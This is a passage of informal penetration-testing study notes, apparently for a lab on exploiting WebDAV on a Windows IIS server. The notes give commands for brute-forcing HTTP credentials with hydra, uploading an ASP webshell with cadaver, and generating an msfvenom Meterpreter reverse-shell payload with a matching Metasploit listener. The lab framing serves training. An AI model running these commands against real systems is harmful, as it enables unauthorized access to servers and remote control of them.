     > now with the nmap command if that return with the directory , but these directory need authorization , u can use always u can use ==**_hydra_**== for any brute force u need , if that is username and password form by the browser u can use it ⇒
    
    - ==**_`hydra -L /usr/share/worldlist/metasploit/common_username.txt -P /usr/share/worldlist/metasploit/common_password.txt <ip> http-get <directory>`_**==
    
      
    
    > so now if we can access , what we can do , we should remember the webdav used to upload download file from the directory as well as modify or delete files , so how do that ??? now it’s time for ==**_davtest ⇒_**== **_it’s tool used to test for what type of file u can upload ,download and what type of file u can_** ==`**_execute_**`==
    
      
    
    - `**_davtest -auth <username>:<password> -url <url with dir>_**` ⇒ that will return with what file can execute and upload
    
    > so now after we know what type of file we can upload and execute , how to do that , so it;s time to ==**_cadaver_**== ⇒ **_==it’s used to upload,delete,download,execute .==_**
    
      
    
    - `cadaver <url with dir>`
    
    1. ==`**_enter the username and the password_**`== ⇒ after the prev command that will promet needed u to enter the auth crad
    2. now will open shell on the server u can do what do u want ⇒ ==`ls , cat …etc`==
    3. ==`put /usr/share/webshells/asp/webshell.asp`== ⇒ that to upload asp webshell on the server ( u have all webshell u ned in /usr/share/webshells)
    4. after this u can return to browser and open the asp webshell , and ==`enter your command in the box`== , and u can find the flag on c , u can cat it using (type ⇒ like cat on linux) ⇒ ==`type C:\flag.txt`==
    
      
    
    - **Windows: IIS Server DAVTest LAP**
    
    https://drive.google.com/file/d/1e8S6ScVRvuyq5Uypw18jL3MeO0spomrK/view?usp=sharing
    
      
    
      
    

  

- _**Metasploit to scan WebDav**_
    
    > it’s same as a nmap , but here not any asp payload work , sometimes u need to generate a payload to work with ==**_msfvenom_**== ⇒ it’s Metasploit tool use to generate a webshell payload ⇒
    
    - ==**_`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<OUR IP> LPORT=1234 -f asp >shell.asp`_**== ⇒ thats will generate a metepreter payload on asp to execute a revirceshell
    - **_==`put /root/shell.asp`==_** ⇒ using cadaver
    
    > before we enter it , we should setup a listener or a handler that receive the revers shell (connoction ) and to make a metepreter session when executed
    
    - **==`service postgresql start && msfconsole`==** ⇒ that because the Metasploit need the the metasploit database to run
    - use multi/handler ⇒ to set payload that will execute and revers on it
    - `**==set payload windows/meterpreter/reverse_tcp==**` ⇒ to set the payload the same payload we used with msfvenom
    - ==_`set LHOST <our ip> && set LPORT 1234`_==<the port we use>
    